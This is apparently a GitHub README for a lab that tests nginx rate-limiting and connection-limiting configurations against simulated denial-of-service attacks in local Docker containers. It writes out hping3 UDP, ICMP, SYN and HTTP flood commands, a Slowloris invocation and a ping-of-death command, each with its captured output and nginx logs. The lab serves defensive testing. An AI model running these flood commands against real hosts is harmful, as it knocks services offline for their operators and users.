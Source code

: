 # DDosBlock 

## Prepare
Change nginx conf file in docker-compose.yml and see DDos attacks and nginx blocks results: 
From: nginx_0.conf
To: 
    - nginx_1.conf - limit request per second from one IP
    - nginx_2.conf - limit sessions quantity from one IP
    - nginx_3.conf - limit swnd data time
    - nginx_4.conf - limit upstream connections

## Run
Run every time for rebuild and restart containers
```
docker-compose down
docker-compose build
docker-compose up
```

## UDP Flood 
`
hping3 --udp -i u100  www.condelnet.com -p 80
`

Result:
```
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=63120 seq=127209
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=3611 seq=133236
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=10108 seq=139733
ICMP Port Unreachable from name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=16206 seq=145831
ICMP Port Unreachable from ip=192.168.56.4 name=ddosblock_nginx_1.ddosblock_ddos
status=0 port=22227 seq=151852
--- www.condelnet.com hping statistic ---
152908 packets transmitted, 30 packets received, 100% packet loss
round-trip min/avg/max = 0.9/5.7/8.9 ms
```

## ICMP flood 
`
hping3 -1 -i u100  www.condelnet.com -p 80
`

Result:
```
len=28 ip=192.168.56.4 ttl=64 id=5901 icmp_seq=53451 rtt=5.4 ms
len=28 ip=192.168.56.4 ttl=64 id=5914 icmp_seq=53452 rtt=5.3 ms
len=28 ip=192.168.56.4 ttl=64 id=5929 icmp_seq=53453 rtt=5.2 ms
--- www.condelnet.com hping statistic ---
53554 packets transmitted, 53454 packets received, 1% packet loss
round-trip min/avg/max = 1.6/18.9/1017.3 ms
```

## HTTP flood 
`
hping3 -i u100  www.condelnet.com
`

Result:
```
len=40 ip=192.168.56.4 ttl=64 DF id=0 sport=0 flags=RA seq=88398 win=0 rtt=4.8 ms
len=40 ip=192.168.56.4 ttl=64 DF id=0 sport=0 flags=RA seq=88399 win=0 rtt=4.7 ms
len=40 ip=192.168.56.4 ttl=64 DF id=0 sport=0 flags=RA seq=88400 win=0 rtt=5.0 ms
--- www.condelnet.com hping statistic ---
88464 packets transmitted, 88401 packets received, 1% packet loss
round-trip min/avg/max = 1.2/18.7/1030.9 ms
```

## Slowloris 
```
pip install Slowloris
slowloris localhost -s 250 -ua
```

Result:
```
nginx_1      | 2022/10/27 23:10:53 [warn] 33#33: 50 worker_connections are not enough, reusing connections

nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?517 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/602.1.50 (KHTML, like Gecko) Version/10.0 Safari/602.1.50" "-"
nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?995 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36" "-"
nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?1896 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.79 Safari/537.36 Edge/14.14393Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36" "-"
nginx_1      | 192.168.56.1 - - [27/Oct/2022:23:13:43 +0000] "GET /?904 HTTP/1.1" 400 0 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36" "-"
```



nginx_1.conf
Result:
503 Service Temporarily Unavailable 
nginx/1.21.6 
```
nginx_1  | 192.168.56.1 - - [28/Oct/2022:13:33:23 +0000] "GET / HTTP/1.1" 503 599 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36" "-"
nginx_1  | 192.168.56.1 - - [28/Oct/2022:13:33:23 +0000] "GET / HTTP/1.1" 503 599 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36" "-"
nginx_1  | 2022/10/28 13:33:23 [error] 37#37: *251 limiting requests, excess: 0.584 by zone "one", client: 192.168.56.1, server: localhost, request: "GET / HTTP/1.1", host: "localhost"
```



## SYN flood 
`
hping3 -S -q -n -i u100  www.condelnet.com -p 80
`

Result:
```
HPING www.condelnet.com (eth0 192.168.56.4): S set, 40 headers + 0 data bytes
--- www.condelnet.com hping statistic ---
728994 packets transmitted, 728954 packets received, 1% packet loss
round-trip min/avg/max = 0.6/10.4/1014.0 ms
```

## Ping of Death 
`
ping -l 65509 www.condelnet.com
`

Result:
```
ping: cannot set preload to value greater than 3: 65509
```